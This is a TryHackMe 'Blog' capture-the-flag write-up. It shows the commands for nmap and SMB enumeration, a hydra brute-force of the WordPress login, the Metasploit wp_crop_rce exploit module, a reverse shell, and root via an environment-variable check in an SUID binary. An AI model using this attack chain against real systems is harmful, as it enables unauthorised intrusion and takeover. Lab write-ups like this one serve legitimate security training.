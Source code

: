 ```yaml
---
title: "TryHackMe - Blog"
author: Nasrallah
description: ""
date: 2022-09-23 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, smb, rce, cve, wordpress, suid]
img_path: /assets/img/tryhackme/blog
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blog](https://tryhackme.com/room/blog) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.93.163                                                                                                                      [2/19]
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset) 
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:      
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry                                         
|_/wp-admin/          
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0                                               
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                       
Host script results:                                                          
| smb2-time:                                                                                                                                                 
|   date: 2022-09-13T08:26:39
|_  start_date: N/A                                                                                                                                          
|_clock-skew: mean: -31m07s, deviation: 0s, median: -31m08s 
| smb-os-discovery:                                                           
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog           
|   NetBIOS computer name: BLOG\x00                                                                                                                          
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-09-13T08:26:39+00:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

There are 4 ports open on this ubuntu machine, port 22 running OpenSSH, 80 running Apache web server, and there is an SMB also running on the machine.

### SMB

Let's list the shares with the command `sudo smbclient -L {targetIP} -N`

```terminal
$ sudo smbclient -L 10.10.93.163 -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        BLOG                 blog server (Samba, Ubuntu)

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG

```

There is an interesting share called `BillySMB`, let's connect to with with the command `sudo smbclient //10.10.10.10/BillySMB -N`

```terminal
$ sudo smbclient //10.10.93.163/BillySMB -N                                                                                                            1 ⨯
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9790380 blocks available
smb: \> get Alice-White-Rabbit.jpg
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (64.8 KiloBytes/sec) (average 64.8 KiloBytes/sec)
smb: \> get tswift.mp4
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (475.3 KiloBytes/sec) (average 407.5 KiloBytes/sec)
smb: \> get check-this.png
getting file \check-this.png of size 3082 as check-this.png (8.6 KiloBytes/sec) (average 366.1 KiloBytes/sec)
smb: \> 

```

We found tree file inside the share and downloaded them with `get {file_name}`.

All the files are rabbit holes and useless to us.

### Web

Let's add `blog.thm` to our /etc/hosts file and navigate to it.

![](1.png)

We found a wordpress blog that belongs to billy. After some enumeration, we find two users `bjoel` and `kwheel`. Let's brute force the login of these users.

```bash
hydra -l {username} -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

![](2.png)

Got the password. Let's login.

![](3.png)

## **Foothold**

After successfully logging in, we can see at the bottom right of the dashboard the version of wordpress being used which is `5.0`. Let's check for available exploits in this version.

![](4.png)

There is a metasploit module that gives remote code execution via image upload.

Let's start metasploit, use `exploit/multi/http/wp_crop_rce` and set the required options as follows.

```bash
use exploit/multi/http/wp_crop_rce

set username {username}

set password {password}

set LHOST tun0

set RHOST blog.thm
```

Now enter `exploit` to run the module.

![](7.png)

Nice, we got a shell.

I uploaded a php reverse shell to wordpress root directory so that in case i lost the current session i don't have to run the exploit again.

![](5.png)

Next i setup a netcat listener and requested the file i uploaded.

![](6.png)


## **Privilege Escalation**

I uploaded a copy of linpeas to the target, run it and got the following.

![](8.png)

There is an unusual SUID binary that when we run it, it prints out `Not an Admin`

```terminal
$ /usr/sbin/checker
Not an Admin
```

Let's see what the binary does with `ltrace`.

```terminal
$ ltrace checker
getenv("admin")      = nil
puts("Not an Admin") = 13
Not an Admin 
```

The program gets checks the admin env variable, if it's null it prints the Not an Admin.

We can try setting the admin variable to anything

```terminal
www-data@blog:/tmp$ export admin=1
www-data@blog:/tmp$ checker
root@blog:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@blog:/tmp# 
```

Got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
